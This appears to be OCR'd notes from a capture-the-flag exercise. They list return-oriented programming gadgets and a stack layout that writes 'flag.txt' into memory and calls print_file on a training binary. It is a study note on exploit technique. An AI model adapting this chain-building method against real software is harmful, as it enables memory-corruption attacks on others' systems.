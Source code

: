 0x0000000000400628: mov qword ptr [r14], r15; ret;
0x0000000000400690: pop r14; pop r15; ret;

I think I can ignore the preservation of r14/15 bc main doesn't use them

return back to main
call print_file
load rdi as string_addr
mov memory
filler



main
print_file
ret filler
string_addr
0x0000000000400693: pop rdi; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;
'/0'
string_addr + 8
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;
"flag.txt"
string_addr
0x0000000000400690: pop r14; pop r15; ret;
filler
